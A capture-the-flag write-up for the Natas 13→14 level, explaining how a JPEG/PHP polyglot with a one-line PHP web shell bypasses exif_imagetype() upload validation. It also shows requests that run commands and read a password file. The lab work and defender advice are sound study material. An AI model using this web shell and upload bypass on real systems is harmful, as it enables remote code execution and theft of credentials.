



# Natas Level 13 → 14

**Vulnerability:** Unrestricted File Upload → Magic Bytes Bypass
**Difficulty:** Medium
**Tools Used:** Browser DevTools, PHP, Linux CLI
**OWASP Category:** A05:2021 – Security Misconfiguration / A03:2021 – Injection

---

## What the level gives you

The application presents a file upload form and claims that only image files are accepted.

Compared to the previous level, the upload functionality now performs server-side image validation before accepting uploaded files.

The goal is to upload a PHP file that bypasses the image validation mechanism and execute code on the server to recover the Natas14 password.

---

## Source code analysis

The upload path is generated using the filename supplied by the user:

```php
$target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

// User controls the filename value
// The resulting extension is preserved
// A .php extension remains executable on the server
```

The extension is extracted directly from the filename:

```php
$ext = pathinfo($fn, PATHINFO_EXTENSION);

// No restriction prevents .php extensions
// Uploaded files may still be stored as PHP scripts
```

The application attempts to validate uploaded files as images:

```php
if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
}

// Validation only checks image signatures (magic bytes)
// It does NOT verify that the entire file is a legitimate image
```

`exif_imagetype()` only inspects the file header. If a file begins with valid JPEG magic bytes but contains PHP code afterward, the validation succeeds.

Because the filename extension is still attacker-controlled, the uploaded file can be executed as PHP even though it passes the image check.

---

## Approach

While reviewing the source code, the primary change from Natas12 was the introduction of `exif_imagetype()`.

The filename parameter remained attacker-controlled, meaning the uploaded file could still be stored with a `.php` extension.

My initial idea was to prepend JPEG magic bytes manually to a PHP script, but that approach proved unreliable.

The turning point was realizing that the validation only checked the file header. Instead of creating a fake image manually, I started with a legitimate JPEG file and appended PHP code to create a JPEG/PHP polyglot.

This would satisfy both requirements:

1. Pass image validation.
2. Execute as PHP on the server.

---

## Exploitation

A legitimate JPEG image was copied and converted into a PHP/JPEG polyglot.

```bash
cp tiny.jpg shell.php
# Start with a valid JPEG image

echo '<?php system($_GET["cmd"]); ?>' >> shell.php
# Append PHP code while preserving JPEG magic bytes
```

The file was verified locally:

```bash
file shell.php

# shell.php: JPEG image data ...
# Confirms the file still appears to be a valid image
```

The hidden filename field was modified using browser Developer Tools:

```html
<input type="hidden" name="filename" value="shell.php">

<!-- Change upload target from .jpg to .php -->
```

After uploading the file, the application returned a randomized upload path:

```text
upload/lcyrhgyykj.php
```

Command execution was verified:

```http
GET /upload/lcyrhgyykj.php?cmd=id

# Executes the id command on the server
```

Response:

```text
uid=30013(natas13)
gid=30013(natas13)
groups=30013(natas13),50001(phupload)
```

The password was retrieved:

```http
GET /upload/lcyrhgyykj.php?cmd=cat%20/etc/natas_webpass/natas14

# Reads the password file for the next level
```

Response:

```text
<password for Natas14>
```

---

## Screenshot

### Source code vulnerability

Shows the vulnerable `exif_imagetype()` validation and filename handling logic.



### Password retrieval

Shows successful execution of the uploaded PHP file and retrieval of the Natas14 password.



---

## Real-world relevance

This vulnerability falls under OWASP A05:2021 – Security Misconfiguration and is frequently observed in file upload functionality where validation relies solely on extensions, MIME types, or magic bytes.

Attackers commonly use polyglot files to bypass upload restrictions and achieve remote code execution. Similar issues have affected content management systems, image-sharing platforms, document portals, and custom enterprise applications.

File upload vulnerabilities are often considered critical because successful exploitation can provide direct server access.

---

## Defender's perspective

The root issue is treating image validation as proof that uploaded content is safe.

Developers should store uploads outside the web root, generate server-side filenames, disable script execution in upload directories, and enforce strict extension allowlists.

A WAF may detect common web shell patterns, but the primary defense is ensuring uploaded files are never executed as application code.

---

## What I'd do differently

Instead of testing multiple file formats manually, I would immediately generate a minimal JPEG/PHP polyglot and verify it against the validation function locally before attempting uploads. This would reduce trial-and-error during exploitation.
